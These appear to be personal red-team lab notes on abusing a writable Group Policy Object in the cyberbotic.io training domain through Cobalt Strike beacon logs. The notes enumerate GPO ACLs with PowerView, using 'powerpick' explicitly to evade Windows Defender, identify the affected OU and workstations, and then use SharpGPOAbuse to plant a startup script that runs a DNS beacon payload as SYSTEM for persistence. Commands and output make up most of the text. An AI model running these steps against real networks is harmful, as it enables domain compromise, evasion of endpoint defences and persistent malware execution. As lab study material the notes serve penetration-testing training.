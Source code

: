 Modifying an existing GPO that is already applied to one or more OUs is the most straightforward scenario.  To search for these, we need to enumerate all GPOs in the domain with `Get-DomainGPO` and check the ACL of each one with `Get-DomainObjectAcl`.  We want to filter any for which a principal has modify privileges such as CreateChild, WriteProperty or GenericWrite, and also want to filter out the legitimate principals including SYSTEM, Domain Admins and Enterprise Admins.




in order to `enumerate` GPO with `Windows Defender` on first import `PowerView.ps1`
```powershell
[12/12 18:30:52] beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
[12/12 18:30:56] [*] Tasked beacon to import: C:\Tools\PowerSploit\Recon\PowerView.ps1
[12/12 18:30:56] [+] host called home, sent: 143801 bytes
```
use `powerpick` to utilize `powershell` commands while bypassing `Windows Defnender`
```powershell
[12/12 18:32:44] beacon> powerpick Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "CreateChild|WriteProperty" -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" }
[12/12 18:32:44] [+] host called home, sent: 10 bytes
[12/12 18:32:44] [*] Tasked beacon to run: Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "CreateChild|WriteProperty" -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" } (unmanaged)
[12/12 18:32:44] [+] host called home, sent: 138048 bytes
[12/12 18:32:55] [+] received output:


AceType               : AccessAllowed
ObjectDN              : CN={5059FAC1-5E94-4361-95D3-3BB235A23928},CN=Policies,CN=System,DC=dev,DC=c
                        yberbotic,DC=io
ActiveDirectoryRights : CreateChild, DeleteChild, ReadProperty, WriteProperty, GenericExecute
OpaqueLength          : 0
ObjectSID             : 
InheritanceFlags      : ContainerInherit
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-569305411-121244042-2357301523-1107
AccessMask            : 131127
AuditFlags            : None
AceFlags              : ContainerInherit
AceQualifier          : AccessAllowed
```
one result was returned, next we `resolve` the GPO name and the `SID` of the principal.
```powershell
[12/12 18:39:28] beacon> powerpick Get-DomainGPO -Identity "CN={5059FAC1-5E94-4361-95D3-3BB235A23928},CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" | select displayName, gpcFileSysPath
[12/12 18:39:28] [+] host called home, sent: 10 bytes
[12/12 18:39:28] [*] Tasked beacon to run: Get-DomainGPO -Identity "CN={5059FAC1-5E94-4361-95D3-3BB235A23928},CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" | select displayName, gpcFileSysPath (unmanaged)
[12/12 18:39:28] [+] host called home, sent: 138048 bytes
[12/12 18:39:32] [+] received output:

displayname    gpcfilesyspath                                                                      
-----------    --------------                                                                      
Vulnerable GPO \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{5059FAC1-5E94-4361-95D3-3B...
```
utilized `SID` from two commands ago to identify the actual `groupname` of `SID`
```powershell
[12/12 19:03:24] beacon> powerpick ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107
[12/12 19:03:24] [*] Tasked beacon to run: ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107 (unmanaged)
[12/12 19:03:24] [+] host called home, sent: 138058 bytes
[12/12 19:03:28] [+] received output:
DEV\Developers
```
This shows us that members of the ``"Developers"`` group can modify ``"Vulnerable GPO"``.

We also want to know which OU(s) this GPO applies to, and by extension which computers are in those OUs.  GPOs are linked to an OU by modifying the `gPLink` property of the OU itself.  The `Get-DomainOU` cmdlet has a handy `-GPLink` parameter which takes a GPO GUID.

```powershell
[12/12 19:04:42] beacon> powerpick Get-DomainOU -GPLink "{5059FAC1-5E94-4361-95D3-3BB235A23928}" | select distinguishedName
[12/12 19:04:42] [+] host called home, sent: 10 bytes
[12/12 19:04:42] [*] Tasked beacon to run: Get-DomainOU -GPLink "{5059FAC1-5E94-4361-95D3-3BB235A23928}" | select distinguishedName (unmanaged)
[12/12 19:04:43] [+] host called home, sent: 138048 bytes
[12/12 19:04:46] [+] received output:

distinguishedname                         
-----------------                         
OU=Workstations,DC=dev,DC=cyberbotic,DC=io
```
Finally, to get the computers in an OU, we can use `Get-DomainComputer` and use the OU's distinguished name as a search base.
```powershell
[12/12 19:05:55] beacon> powerpick Get-DomainComputer -SearchBase "OU=Workstations,DC=dev,DC=cyberbotic,DC=io" | select dnsHostName
[12/12 19:05:55] [+] host called home, sent: 10 bytes
[12/12 19:05:55] [*] Tasked beacon to run: Get-DomainComputer -SearchBase "OU=Workstations,DC=dev,DC=cyberbotic,DC=io" | select dnsHostName (unmanaged)
[12/12 19:05:55] [+] host called home, sent: 138048 bytes
[12/12 19:05:59] [+] received output:

dnshostname              
-----------              
wkstn-1.dev.cyberbotic.io
wkstn-2.dev.cyberbotic.io
```
To modify a GPO without the use of GPMC (Group Policy Management Console), we can modify the associated files directly in SYSVOL (the gpcFileSysPath).
```powershell
[12/12 19:06:56] beacon> ls \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{5059FAC1-5E94-4361-95D3-3BB235A23928}
[12/12 19:06:56] [*] Tasked beacon to list files in \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{5059FAC1-5E94-4361-95D3-3BB235A23928}
[12/12 19:06:56] [+] host called home, sent: 110 bytes
[12/12 19:06:56] [*] Listing: \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{5059FAC1-5E94-4361-95D3-3BB235A23928}\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     12/13/2022 12:35:45   Machine
          dir     12/13/2022 12:35:45   User
 59b      fil     12/13/2022 12:35:45   GPT.INI
```
We can do that manually or use an automated tool such as [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse), which has several abuses built into it.

Here's an example using a Computer Startup Script.  It will put a startup script in SYSVOL that will be executed each time an effected computer starts (which incidentally also acts as a good persistence mechanism).
```powershell
beacon> execute-assembly C:\Tools\SharpGPOAbuse\SharpGPOAbuse\bin\Release\SharpGPOAbuse.exe --AddComputerScript --ScriptName startup.bat --ScriptContents "start /b \\dc-2\software\dns_x64.exe" --GPOName "Vulnerable GPO"

[+] Domain = dev.cyberbotic.io
[+] Domain Controller = dc-2.dev.cyberbotic.io
[+] Distinguished Name = CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io
[+] GUID of "Vulnerable GPO" is: {5059FAC1-5E94-4361-95D3-3BB235A23928}
[+] Creating new startup script...
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new startup script. Wait for the GPO refresh cycle.
[+] Done!
```

  Note that you can find this `software` share using PowerView:  
  
```powershell
beacon> powershell Find-DomainShare -CheckShareAccess

Name           Type Remark              ComputerName
----           ---- ------              ------------
software          0                     dc-2.dev.cyberbotic.io
```
Log into the console of Workstation 1 and run `gpupdate /force` from a Command Prompt.  Then reboot the machine.  After it starts up, the DNS Beacon will execute as SYSTEM.

*this never worked for me* the DNS beacon never returned.

# testing on WKSTN-2

![[Pasted image 20231218211719.png]]